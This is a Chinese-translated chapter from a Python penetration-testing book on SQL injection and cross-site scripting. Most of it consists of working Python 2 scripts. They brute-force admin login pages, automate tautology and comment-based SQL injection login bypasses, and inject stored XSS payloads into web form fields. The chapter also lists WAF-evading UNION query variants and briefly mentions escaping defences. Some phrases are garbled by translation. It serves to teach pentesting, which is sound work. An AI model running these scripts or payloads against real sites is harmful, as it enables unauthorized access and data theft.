




# 九、测试 SQL 和 XSS

在本章中，我们将讨论一些针对 web 应用的严重攻击。你一定听说过数据盗窃、用户名和密码被破解、网站被破坏等事件。已知这些漏洞主要是由于 web 应用中存在的漏洞造成的，这些漏洞通常是通过 SQL 注入和 XSS 攻击执行的。在[第 7 章](7.html)*中，您学习了如何查看 Web 服务器和 Web 应用*上正在使用哪些数据库软件以及运行哪些操作系统。现在，我们将一个接一个地进行我们的攻击。在本章中，我们将介绍以下主题：

*   SQL 注入攻击
*   SQL 注入攻击的类型
*   Python 脚本的 SQL 注入攻击
*   跨站点脚本攻击
*   XSS 的类型
*   Python 脚本的 XSS 攻击

# 介绍 SQL 注入攻击

SQL 注入是一种技术，或者可以说是一种专家技术，用于利用未验证的输入漏洞窃取数据。web 应用的工作方法可以在以下屏幕截图中看到：


web 应用工作的方法

如果我们的查询未经验证，那么它将转到数据库执行，然后可能会显示敏感数据或删除数据。前面的屏幕截图显示了数据驱动网站的工作原理。在这个屏幕截图中，我们看到客户端在本地计算机上打开网页。主机通过 internet 连接到 web 服务器。前面的屏幕截图清楚地显示了 web 应用与 web 服务器数据库交互的方法。

# SQL 注入的类型

SQL 注入攻击可分为以下两种类型：

*   简单 SQL 注入
*   SQL 盲注入

# 简单 SQL 注入

一个简单的 SQL 注入攻击包含同义反复。在重言式中，注入语句总是`true`。union select 语句返回预期数据与目标数据的并集。我们将在下一节详细介绍 SQL 注入。

# SQL 盲注入

在此攻击中，攻击者利用数据库服务器在执行 SQL 注入攻击后生成的错误消息。攻击者通过询问一系列正确或错误的问题来收集数据。

# 用 Python 脚本理解 SQL 注入攻击

所有 SQL 注入攻击都可以手动执行。但是，您可以使用 Python 编程来自动执行攻击。如果您是一个优秀的 pentester，并且知道如何手动执行攻击，那么您可以让自己的程序检查这一点。

为了获得网站的用户名和密码，我们必须有管理员或登录控制台页面的 URL。客户端未提供指向网站上管理控制台页面的链接。

在这里，谷歌无法提供特定网站的登录页面。我们的第一步是找到管理控制台页面。我记得，几年前，我使用了 URL`http://192.168.0.4/login.php`和`http://192.168.0.4/login.html`。现在，web 开发人员变得聪明起来，他们使用不同的名称来隐藏登录页面。

假设我有 300 多个链接要尝试。如果我尝试手动执行此操作，将需要大约一到两天的时间来获取网页。

让我们来看看一个小程序，Apple T0}，找到 PHP 网站的登录页面：

```py
import httplib
import shelve # to store login pages name 
url = raw_input("Enter the full URL ")
url1 =url.replace("http://","")
url2= url1.replace("/","")
s = shelve.open("mohit.raj",writeback=True)

for u in s['php']:
  a = "/"
  url_n = url2+a+u
  print url_n
  http_r = httplib.HTTPConnection(url2)
  u=a+u
  http_r.request("GET",u)
  reply = http_r.getresponse()

  if reply.status == 200:
    print "n URL found ---- ", url_n
    ch = raw_input("Press c for continue : ")
    if ch == "c" or ch == "C" :
      continue 
    else :
      break

s.close()
```

为了更好地理解，假设前面的代码是一把空手枪。`mohit.raj`锉刀就像手枪的弹匣，`data_handle.py`就像一台可以将子弹放入弹匣的机器。

我为一个 PHP 驱动的网站编写了这段代码。在这里，我导入了`httplib`和`shelve`。`url`变量存储用户输入的网站 URL。`url2`变量只存储域名或 IP 地址。`s = shelve.open("mohit.raj",writeback=True)`语句打开`mohit.raj`文件，该文件包含我根据经验在文件中输入的预期登录页面名称列表（预期登录页面）。`s['php']`变量表示`php`是列表的键名，`s['php']`是使用名称`'php'`保存在搁置文件（`mohit.raj`中的列表。`for`循环逐个提取登录页面名称，`url_n = url2+a+u`将显示 URL 进行测试。`HTTPConnection`实例表示一个 HTTP 服务器的事务。`http_r = httplib.HTTPConnection(url2)`声明只需要域名；这就是为什么只有`url2`变量作为参数传递，并且默认情况下，它使用端口`80`并将结果存储在`http_r`变量中。`http_r.request("GET",u)`语句发出网络请求，`http_r.getresponse()`语句提取响应。

如果返回码为`200`，则表示我们成功了。它将打印当前的 URL。如果在第一次成功后，您仍想查找更多页面，则可以按*C*键。

你可能想知道为什么我用的是`httplib`库而不是`urllib`库。如果你是，那么你的思路是正确的。事实上，许多网站使用重定向进行错误处理。`urllib`库支持重定向，但`httplib`不支持重定向。考虑到当我们碰到一个不存在的 URL 时，网站（自定义错误处理）将请求重定向到包含一个消息的另一个页面，如 AutoT4 或 PoT T5 席，即自定义 404 页。在这种情况下，HTTP 状态返回码为`200`。在我们的代码中，我们使用了`httplib`；这不支持重定向，因此 HTTP 状态返回代码`200`将不会生成。

为了管理`mohit.raj`数据库文件，我制作了一个 Python 程序`data_handler.py`。

现在，是时候在下面的屏幕截图中查看输出了：



显示登录页面的 login.py 程序

此处登录页面为`http://192.168.0.6/admin`和`http://192.168.0.6/admin/index.php`。

让我们检查一下`data_handler.py`文件。

现在，让我们按如下方式编写代码：

```py
import shelve
def create():
  print "This only for One key "
  s = shelve.open("mohit.raj",writeback=True)
  s['php']= []

def update():
  s = shelve.open("mohit.raj",writeback=True)
  val1 = int(raw_input("Enter the number of values  "))

  for x in range(val1):
    val = raw_input("n Enter the valuet")
    (s['php']).append(val)
  s.sync()
  s.close()

def retrieve():
  r = shelve.open("mohit.raj",writeback=True)
  for key in r:
    print "*"*20
    print key
    print r[key]
    print "Total Number ", len(r['php'])
  r.close()

while (True):
  print "Press"
  print "  C for Create, t  U for Update,t  R for retrieve"
  print "  E for exit"
  print "*"*40
  c=raw_input("Enter t")  
  if (c=='C' or c=='c'):
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

我希望您还记得端口扫描程序，在该程序中，我们使用了一个数据库文件来存储端口号和端口描述。这里使用了一个名为`php`的列表，可以在下面的屏幕截图中看到输出：



通过 data_handler.py 显示 mohit.raj

前面的程序是针对 PHP 的。我们还可以为不同的 web 服务器语言（如 ASP.NET）制作程序。

现在，是时候执行基于重言式的 SQL 注入攻击了。基于重言式的 SQL 注入通常用于绕过用户身份验证。

例如，假设数据库包含用户名和密码。在这种情况下，web 应用编程代码如下所示：

```py
$sql = "SELECT count(*) FROM cros where (User=".$uname." and Pass=".$pass.")";
```

`$uname`变量存储用户名，`$pass`变量存储密码。如果用户输入有效的用户名和密码，`count(*)`将包含一条记录。如果`count(*) > 0`，则用户可以访问其帐户。如果攻击者在用户名和密码字段中输入`1" or "1"="1`，则查询如下：

```py
 $sql = "SELECT count(*) FROM cros where (User="1" or "1"="1." and Pass="1" or "1"="1")";.
```

`User`和`Pass`字段将保留`true`，而`count(*)`字段将自动变为`count(*)> 0`。

让我们编写`sql_form6.py`代码并逐行分析：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

  elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在`for`循环之前，您应该能够理解程序。`pass_exp`变量表示包含基于重言式的密码攻击的列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环（即`br.select_form(nr=0)`语句）中，选择 HTML 表单一。实际上，此代码基于这样的假设：当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示传递给`br.form[pass1]`的`pass_exp`列表的元素。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已被成功接受？您已经看到，在成功登录到页面后，您将在页面上找到一个注销或注销选项。我在一个名为`list`的列表中存储了注销和注销选项的不同组合。`data1 = data.lower()`语句将所有数据更改为小写。这样可以很容易地在数据中找到注销或注销条款。现在，让我们看看代码：

```py
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

前面的代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看下一行代码：

```py
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```

前面的代码显示，如果`pass_exp`列表的所有值都已结束，则`while`循环将中断。

现在，让我们检查以下屏幕截图中的代码输出：


SQL 注入攻击

前面的屏幕截图显示了代码的输出。这是清除程序逻辑的非常基本的代码。现在，我希望您修改代码并生成一个新代码，您可以在其中为密码和用户名提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`，并在密码字段中填写任何内容。此列表背后的逻辑是，在管理员字符串`–`或`#`做出注释后，该行的其余部分在 SQL 语句中：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
  br.form[user1] = user_exp[p]
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",user_exp[p]

  elif(p+1 == len(user_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在前面的代码中，我们又使用了一个变量`form`；在输出中，必须选择表单名称。在`sql_form6.py`代码中，我假设用户名和密码包含在表单编号`1`中。

前面代码的输出如下所示：


SQL 注入用户名查询漏洞

现在，我们可以合并`sql_form6.py`和`sql_from7.py`代码并生成一个代码。

为了减轻前面的 SQL 注入攻击，您必须设置一个过滤程序来过滤用户输入的输入字符串。在 PHP 中，`mysql_real_escape_string()`函数用于过滤。下面的屏幕截图显示了如何使用此功能：


PHP 中的 SQL 注入过滤器

到目前为止，您已经了解了如何执行 SQL 注入攻击。在 SQL 注入攻击中，我们必须手动执行很多操作，因为有很多 SQL 注入攻击，例如基于时间、基于 SQL 查询的包含顺序、基于联合等。每个 pentester 都应该知道如何手工创建查询。对于一种类型的攻击，您可以制作一个程序，但是现在，不同的网站开发人员使用不同的方法来显示数据库中的数据。有些开发人员使用 HTML 表单来显示数据，有些开发人员使用简单的 HTML 语句来显示数据。一个名为*sqlmap*的 Python 工具可以做很多事情。然而，有时会出现 web 应用防火墙，如 mod security；这不允许通过查询*联合*和*订单。在这种情况下，您必须手动创建查询，如下所示：*

```py
/*!UNION*/ SELECT 1,2,3,4,5,6,--
/*!00000UNION*/ SELECT 1,2,database(),4,5,6 –
/*!UnIoN*/ /*!sElEcT*/ 1,2,3,4,5,6 –
```

您可以创建精心编制的查询列表。当简单查询不起作用时，您可以检查网站的行为。根据行为，您可以决定查询是否成功。在本例中，Python 编程非常有用。

现在，让我们看一下为基于防火墙的网站制作 Python 程序的以下步骤：

1.  列出所有精心编制的查询
2.  对网站应用一个简单的查询并观察网站的响应
3.  对不成功的尝试使用此`attempt not successful`响应
4.  逐个应用列出的查询并匹配程序的响应
5.  如果响应不匹配，则手动检查查询
6.  如果看起来成功了，那么停止该程序

前面的步骤仅用于显示精心编制的查询是否成功。只有通过查看网站才能找到所需的结果。

# 学习跨站点脚本

在本节中，我们将讨论**跨站点脚本**（**XSS**攻击。XSS 攻击利用动态生成的网页中的漏洞进行攻击，当发送到用户浏览器进行呈现的动态内容中包含无效输入数据时，就会发生这种情况。

跨站点攻击有以下两种类型：

*   持久的或存储的 XSS
*   非持久或反射 XSS

# 持久的或存储的 XSS

在这种类型的攻击中，攻击者的输入存储在 web 服务器中。在一些网站上，你会看到评论栏和一个可以写评论的消息框。提交评论后，您的评论将显示在显示页面上。试着想想一个例子，你的评论变成了 web 服务器 HTML 页面的一部分；这意味着您可以更改网页。如果没有适当的验证，那么恶意代码可能会存储在数据库中，当它反射回网页时，会产生不良效果。它永久存储在数据库服务器中，这就是为什么它被称为持久性。

# 非持久或反射 XSS

在这种类型的攻击中，攻击者的输入不会存储在数据库服务器中。响应以错误消息的形式返回。输入与 URL 一起提供，或在搜索字段中提供。在本章中，我们将研究存储的 XSS。

现在，让我们看看 XSS 攻击的代码。代码的逻辑是向网站发送漏洞攻击。在以下代码中，我们将攻击表单的一个字段：

```py
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
  br.form[att] = s['xss'][p]
  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

此代码是为使用名称和注释字段的网站编写的。这段代码将让您了解如何完成 XSS 攻击。有时，当您提交评论时，网站将重定向到显示页面。这就是为什么我们使用`br.set_handle_redirect(False)`语句进行评论。在代码中，我们将漏洞代码存储在`mohit.xss`搁置文件中。`br.forms():`中的表单语句将打印表单。通过查看表单，可以选择要攻击的表单字段。设置`flag = 'y'`变量使`while`循环至少执行一次。有趣的是，当我们使用`br.open(url)`语句时，它每次都会打开网站的 URL，因为在我的虚拟网站中，我使用了重定向；这意味着在提交表单后，它将重定向到显示页面，该页面将显示旧的注释。`br.form[non] = 'aaaaaaa'`语句只填充输入字段中的`aaaaaa`字符串。`br.form[att] = s['xss'][p]`语句显示所选字段将由 XSS 漏洞字符串填充。`ch = raw_input("Do you continue press y ")`语句要求用户输入下一次攻击。如果用户输入了`y`或`Y`，则`ch.lower()`将其设置为`y`，从而使`while`循环保持活动状态。

现在，是输出的时候了。以下截图显示了`192.168.0.5`的索引页面：



网站的索引页

现在，是时候查看代码的输出了：


代码的输出

您可以在前面的屏幕截图中看到代码的输出。当我按下*y*键时，代码发送 XSS 漏洞攻击。

现在，让我们看看网站的输出：


网站的输出

您可以看到代码正在成功地将输出发送到网站。但是，由于 PHP 中的安全编码，该字段不受 XSS 攻击的影响。在本章末尾，您将看到注释字段的安全编码。现在，运行代码并检查名称字段：


对名称字段的成功攻击

现在，让我们来看看 AutoT0A.的代码，从中你可以更新

```py
import shelve
def create():
  print "This only for One key "
  s = shelve.open("mohit.xss",writeback=True)
  s['xss']= []

def update():
  s = shelve.open("mohit.xss",writeback=True)
  val1 = int(raw_input("Enter the number of values  "))

  for x in range(val1):
    val = raw_input("n Enter the valuet")
    (s['xss']).append(val)
  s.sync()
  s.close()

def retrieve():
  r = shelve.open("mohit.xss",writeback=True)
  for key in r:
    print "*"*20
    print key
    print r[key]
    print "Total Number ", len(r['xss'])
  r.close()

while (True):
  print "Press"
  print "  C for Create, t  U for Update,t  R for retrieve"
  print "  E for exit"
  print "*"*40
  c=raw_input("Enter t")  
  if (c=='C' or c=='c'):
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

我希望您熟悉前面的代码。现在，看看前面代码的输出：



xss_data_handler.py 的输出

前面的屏幕截图显示了`mohit.xss`文件的内容；`xss.py`文件仅限于两个字段。但是，现在让我们看看不限于两个字段的代码。

`xss_list.py`文件如下：

```py
import mechanize
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表，`list_a`和`list_n`。`list_a`列表包含要发送 XSS 漏洞攻击的字段名，`list_n`列表包含不想发送 XSS 漏洞攻击的字段名。

现在我们来看节目。如果您了解`xss.py`计划，您会注意到我们对`xss.py`进行了修改，创建了`xss_list.py`：

```py
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的意义。变量字段要求用户输入表单中非只读的表单字段总数。`for i in xrange(0,field):`语句定义了 for 循环从 0 到字段，即运行字段时间，表示表单中存在的字段总数。`na`变量要求用户输入字段名，`ch`变量要求用户输入`Do you attack on this field`？这意味着，如果您按*y*或*y*，输入的字段将转到`list_a`；否则会转到`list_n`：

```py
for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'
```

前面的代码很容易理解。迭代两个列表的两个`for`循环，并填充表单字段。

代码的输出如下所示：


填写检查表\u n

前面的屏幕截图显示表单字段的数量为两个。用户输入表单字段的名称并使其成为非攻击字段。这只是检查代码的工作情况：


填写表格以检查列表

前面的屏幕截图显示用户输入表单字段并使其成为攻击字段。

现在，请查看网站的回复，如下所示：


表单字段已成功填写

前面的屏幕截图显示代码工作正常；前两行用普通的`aaaaaaa`字符串填充。第三行和第四行已被 XSS 攻击填满。到目前为止，您已经了解了如何自动化 XSS 攻击。通过适当的验证和过滤，web 开发人员可以保护他们的网站。在 PHP 函数中，`htmlspecialchars()`字符串可以保护您的网站免受 XSS 攻击。在前面的屏幕截图中，您可以看到注释字段不受 XSS 攻击的影响。以下屏幕截图显示了注释字段的编码部分：


显示 htmlspecialchars（）函数的图

当您看到显示页面的查看源时，它看起来像`&lt;script&gt;alert(1)&lt;/script&gt`；将特殊字符`<`转换为`&lt`，将`>`转换为`&gt`。这种转换称为 HTML 编码。

# 总结

在本章中，您了解了两种主要的 web 攻击类型：SQL 注入和 XSS。在 SQL 注入中，您学习了如何使用 Python 脚本查找管理员登录页面。SQL 注入有很多不同的查询，在本章中，您学习了如何基于重言式破解用户名和密码。在另一次 SQL 注入攻击中，您学习了如何在有效用户名后进行注释。在 XSS 中，您看到了如何将 XSS 漏洞利用应用于表单字段，在`mohit.xss`文件中，您看到了如何添加更多漏洞利用。